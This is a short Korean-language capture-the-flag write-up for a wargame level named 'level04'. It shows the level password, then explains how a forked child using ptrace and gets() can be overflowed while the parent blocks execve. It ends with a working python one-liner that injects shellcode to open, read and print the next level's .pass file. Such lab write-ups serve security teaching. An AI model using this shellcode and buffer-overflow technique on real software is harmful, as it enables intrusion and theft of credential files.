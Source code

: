 > Password: kgv3tkEb9h2mLkRsPkXRfc2mHbjMxQzvb2FrgKkf

level04 프로그램을 분석해보면

fork()를 한 이후, 자식 프로세스에서 ptrace(PTRACE_TRACEME ...); 을 호출한 이후 버퍼 오버플로우에 취약한 gets함수를 호출하고,
부모 프로세스에서는 wait이후 자식이 받은 시그널을 확인해서 자식이 execve계열 호출을 하였는지 확인하고, execve호출을 하였을 때 더 이상 진행하지 못하게 막는 프로그램이다.

자식 프로세스에서 gets를 사용한다는 점에서 매우 쉽게 취약점을 공격할 수 있지만, 자주 사용했던 execve("/bin/sh", NULL, NULL);을 사용할 수 없는 문제이다.

따라서 정직하게 open("/home/users/level05/.pass") -> read(fd, buf, 0x28); -> write(1, buf, 0x28); 순으로 비밀번호를 직접 출력하는 코드를 주입하면 된다.

```bash
python -c 'import sys; sys.stdout.write("/home/users/level05/.pass\x00" + "\x90" * 75 + "\xb8\x05\x00\x00\x00\xbb\x70\xd6\xff\xff\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\xb9\x70\xd6\xff\xff\xba\x28\x00\x00\x00\xcd\x80\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xb9\x70\xd6\xff\xff\xba\x28\x00\x00\x00\xcd\x80" + "\x7a\xd6\xff\xff")' | ./level04
```
